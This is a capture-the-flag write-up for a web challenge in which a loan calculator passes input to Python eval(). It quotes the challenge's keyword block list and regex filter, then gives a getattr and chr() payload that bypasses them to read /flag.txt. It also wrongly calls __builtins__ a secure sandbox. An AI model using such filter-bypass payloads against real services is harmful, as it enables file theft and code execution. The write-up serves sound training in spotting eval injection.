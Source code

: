 # **Writeup for Web CTF Challenge: "3v@l"**

---

## **1️⃣ Challenge Overview**

- **Challenge Name:** 3v@l
- **Category:** Web Exploitation
- **Description:**
    
    > ABC Bank's website has a loan calculator that uses the eval function to evaluate user input. However, this function is insecure and could lead to Remote Code Execution (RCE). Our goal is to exploit this vulnerability and read the flag stored in /flag.txt.
    > 

---

## **2️⃣ Understanding the Vulnerability**

To solve the challenge, we need to analyze the security flaw in the given website.

### **What is `eval()`?**

- `eval()` is a built-in function in **Python** that evaluates a string as if it were a piece of Python code.
- Example:
    
    ```python
    eval("2 + 2")  # Output: 4
    eval("print('Hello')")  # Output: Hello
    
    ```
    
- **The Issue with `eval()`:**
    - If `eval()` processes user input **without strict filtering**, an attacker can execute arbitrary Python commands.
    - This can lead to **Remote Code Execution (RCE)**, allowing us to access files, execute system commands, or manipulate data.

---

### **3️⃣ How We Identified the Vulnerabilities**

From the given source code, we noticed the following:

- **`eval()` is used** to evaluate the user input directly.
- **Some keywords are blocked**:
    
    ```
    os, eval, exec, bind, connect, python, socket, ls, cat, shell
    
    ```
    
- **A regex filter is applied**:

This means:
    
    ```
    r'0x[0-9A-Fa-f]+|\\u[0-9A-Fa-f]{4}|%[0-9A-Fa-f]{2}|\.[A-Za-z0-9]{1,3}\b|[\\\/]|\.\.'
    
    ```
    
    - **Hex encoding (`0x...`) is blocked**.
    - **Unicode encoding (`\uXXXX`) is blocked**.
    - **URL encoding (`%xx`) is blocked**.
    - **Dot (`.`) and slashes (`/` and `\`) are blocked**.

---

## **4️⃣ Exploitation Steps**

### **Step 1: Bypassing the `eval` Restriction**

- Since `eval()` is dangerous, Python provides a secure sandboxing mechanism through `__builtins__`, which holds all Python built-in functions.
- Normally, `open()` is accessed as:
    
    ```python
    open("/flag.txt").read()
    
    ```
    
- However, `open()` is not directly available in the challenge. But we know that **`open` exists inside `__builtins__`**.

### **Step 2: Accessing `open()` Without Using the Word "open"**

- We use `getattr()` to dynamically access attributes from objects.
- Instead of writing `"open"`, we construct it dynamically:
    
    ```python
    getattr(__builtins__, "open")
    
    ```
    
    - `getattr(__builtins__, "open")` fetches the `open()` function from built-in functions.

### **Step 3: Constructing the File Path Without `/` and `.`**

- Since slashes (`/`) and dots (`.`) are **blocked**, we can't directly type `/flag.txt`.
- Instead, we use `chr()` to construct them dynamically:
    - `/` (ASCII 47) → `chr(47)`
    - `.` (ASCII 46) → `chr(46)`
- Thus, `/flag.txt` is reconstructed as:
    
    ```python
    chr(47) + "flag" + chr(46) + "txt"
    
    ```
    

### **Step 4: Reading the Flag**

- Now, we combine everything:
    
    ```python
    getattr(__builtins__, chr(111) + chr(112) + chr(101) + chr(110))(chr(47) + 'flag' + chr(46) + 'txt').read()
    
    ```
    
    - `chr(111) + chr(112) + chr(101) + chr(110)` dynamically reconstructs `"open"`.
    - `chr(47) + 'flag' + chr(46) + 'txt'` reconstructs `"/flag.txt"`.
    - `getattr(__builtins__, "open")("/flag.txt").read()` is effectively executed.

### **Step 5: Submitting the Payload**

- We enter this payload into the loan calculator input:
    
    ```python
    getattr(__builtins__, chr(111) + chr(112) + chr(101) + chr(110))(chr(47) + 'flag' + chr(46) + 'txt').read()
    
    ```
    
- **Output:**
    
    ```
    picoCTF{D0nt_Use_Unsecure_f@nctions6798a2d8}
    
    ```
    
- **Success! 🎉 We got the flag!**
